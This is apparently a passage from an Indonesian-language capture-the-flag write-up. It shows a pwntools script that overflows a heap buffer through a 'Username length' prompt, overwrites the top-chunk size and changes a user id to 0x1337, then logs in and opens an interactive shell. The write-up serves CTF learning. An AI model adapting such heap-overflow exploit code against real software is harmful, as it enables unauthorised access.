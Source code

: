 ```python
        p = process()
    return Exploit(p), p


class Exploit:
    def __init__(self, p: process):
        self.p = p

    def debug(self, script=None):
        if not args.RMT:
            attach(self.p, script)

    def send(self, content):
        p = self.p
        p.sendlineafter(b"> ", content)
        
    def add_user(self, username_lenght: bytes, username: bytes = None, send_username: bool = True):
        p = self.p
        self.send(b"1")
        p.sendlineafter(b"Username length: ", username_lenght)
        if send_username:
            p.sendlineafter(b"Username: ", username)
    
    def login(self, username: bytes):
        p = self.p
        self.send(b"2")
        p.sendlineafter(b"Username: ", username)

x, p = init()

pay = b"A"*28 # overflow heap
pay += pack("<Q", 0x20d00) # agar heap size tidak berubah
pay += b"\x13\x37"[::-1] # rubah id menjadi 0x1337
x.add_user(pay, send_username=False)
x.add_user(b"10", b"dimas", send_username=True) # membuat username dimas
x.login(b"dimas") # login dengan username dimas yang idnya berubah menjadi 1337
# x.debug("heap chunks") # debug chunk (ekstensi gef)
p.interactive() # shell
```

overwrite heap address menggunakan heapoverflow di "Username length: "

![](Pasted%20image%2020220925193527.png)